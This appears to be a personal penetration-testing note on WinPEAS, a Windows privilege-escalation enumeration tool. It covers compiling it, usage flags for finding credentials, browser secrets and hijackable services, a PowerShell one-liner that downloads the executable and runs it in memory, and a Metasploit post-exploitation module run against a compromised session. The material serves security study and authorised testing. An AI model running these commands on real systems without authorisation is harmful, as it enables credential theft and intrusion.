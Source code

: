 # WinPEAS

## 01 - Compile

- **Install a targeting pack**

https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481

- **Compile WinPEAS

TODO: figure it out how to manually compile WinPEAS in C#

```
C:\> git clone https://github.com/carlospolop/PEASS-ng.git

C:\> cd PEASS-ng\winPEAS\winPEASexe\winPEAS

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> copy Program.cs Program.cs.bak

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet new console --force

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet add package Microsoft.VisualStudio.UnitTesting --version 11.0.50727.1

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> del Program.cs; move Program.cs.bak Program.cs
```

_**I'm still having an error**_

`C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1`

## 02 - Manual

### 2.1 - Usage

- **It will display all of the results once executed**

`C:\> winPEASx64.exe`

- **Runs the enumeration tool but does not display the banner**

`C:\> winPEASx64.exe quiet`

- **Look for sensitive files**

`C:\> winPEASx64.exe fileinfo`

- **Enumerate web browser databases credentials**

`C:\> winPEASx64.exe browserinfo`

- **Find credentials on the Windows machine** **and check for** [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Windows/Local Privilege Escalation/Registry/AlwaysInstallElevated/Manual|AlwaysInstallElevated]]

`C:\> winPEASx64.exe windowscreds`

- **Obtaining Wi-Fi passwords, credential manager and clipboard information using the command prompt commands**

`C:\> winPEASx64.exe quiet cmd`

- **Display the results that is related only to the user information**

`C:\> winPEASx64.exe userinfo`

- **Enumerate installed programs that we might look into**

`C:\> winPEASx64.exe applicationsinfo`

- **Enumerate to discover any insecure services that we can hijack**

`C:\> winPEASx64.exe servicesinfo`

- **Provide information related to the current running processes**

`C:\> winPEASx64.exe processinfo`

- **Discover networking information**

`C:\> winPEASx64.exe networkinfo`

- **Enumerating the whole system and find kernel vulnerabilities**

`C:\> winPEASx64.exe systeminfo`

- **Enumerate the system quickly yet it's gonna be noisy and might be a risk to OPSEC that does absorb some resources**

`C:\> winPEASx64.exe quiet searchfast`

- **Search everything on the system**

`C:\> winPEASx64.exe quiet searchall`

### 2.2 - Download and Execute

```powershell
$url = 'https://github.com/carlospolop/PEASS-ng/releases/download/20220821/winPEASx64.exe'

$wp = [System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

## 03 - Metasploit

```
$ sudo cp peass.rb /usr/share/metasploit-framework/modules/post/multi/gather/

$ sudo wget -O /usr/share/metasploit-framework/modules/post/multi/gather/peass.rb https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/metasploit/peass.rb

msf > reload_all

msf > use post/multi/gather/peass

msf post(multi/gather/peass) > options

Module options (post/multi/gather/peass):

   Name        Current Setting                              Required  Description
   ----        ---------------                              --------  -----------
   PARAMETERS                                               no        Parameters to pass to the script
   PASSWORD    w2ogatdfgsh1mcathikl7j39alk715q7             no        Password to encrypt and obfuscate the script (randomly generated). The length
                                                                      must be 32B. If no password is set, only base64 will be used.
   PEASS_URL   https://github.com/carlospolop/PEASS-ng/rel  yes       Path to the PEASS script. Accepted: http(s):// URL or absolute local path. Lin
               eases/latest/download/winPEASany_ofs.exe               peas: https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas
                                                                      .sh
   SESSION                                                  yes       The session to run this module on
   SRVHOST                                                  no        Set your metasploit instance IP if you want to download the PEASS script from
                                                                      here via http(s) instead of uploading it.
   SRVPORT     443                                          no        Port to download the PEASS script from using http(s) (only used if SRVHOST)
   SSL         true                                         no        Indicate if you want to communicate with https (only used if SRVHOST)
   SSLCert                                                  no        Path to a custom SSL certificate (default is randomly generated)
   TEMP_DIR                                                 no        Path to upload the obfuscated PEASS script inside the compromised machine. By
                                                                      default "C:\Windows\System32\spool\drivers\color" is used in Windows and "/tmp
                                                                      " in Unix.
   TIMEOUT     900                                          no        Timeout of the execution of the PEASS script (15min by default)
   URIPATH     /u6xm.txt                                    no        URI path to download the script from there (only used if SRVHOST)

msf post(multi/gather/peass) > advanced

Module advanced options (post/multi/gather/peass):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   ListenerBindAddress                   no        The specific IP address to bind to if different from SRVHOST
   ListenerBindPort                      no        The port to bind to if different from SRVPORT
   ListenerComm                          no        The specific communication channel to use for this service
   SSLCipher                             no        String for SSL cipher spec - "DHE-RSA-AES256-SHA" or "ADH"
   SSLCompression       false            no        Enable SSL/TLS-level compression
   SSLVersion           Auto             yes       Specify the version of SSL/TLS to be used (Auto, TLS and SSL23 are auto-negotiate) (Accepted: Aut
                                                   o, TLS, SSL23, SSL3, TLS1, TLS1.1, TLS1.2)
   SendRobots           false            no        Return a robots.txt file if asked for one
   URIHOST                               no        Host to use in URI (useful for tunnels)
   URIPORT                               no        Port to use in URI (useful for tunnels)
   VERBOSE              false            no        Enable detailed status messages
   WORKSPACE                             no        Specify the workspace for this module

msf post(multi/gather/peass) > set peass_url http://<IP>:<PORT>/winPEASx64.exe

msf post(multi/gather/peass) > set session <session_id>

msf post(multi/gather/peass) > run

[+] PEASS script successfully retrieved.
[*] Encrypting PEASS and encoding it in Base64...
[*] Uploading obfuscated peass to C:\Windows\System32\spool\drivers\color\1ecke...
[+] Uploaded
[*] Running PEASS...
..[snip]..

[+] PEASS output saved to: /root/.msf4/loot/20220515165546_default_10.0.2.15_PEASS_757580.txt
[*] Post module execution completed
```

---
## References

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

- [WinPEAS Metasploit Module](https://github.com/carlospolop/PEASS-ng/tree/master/metasploit)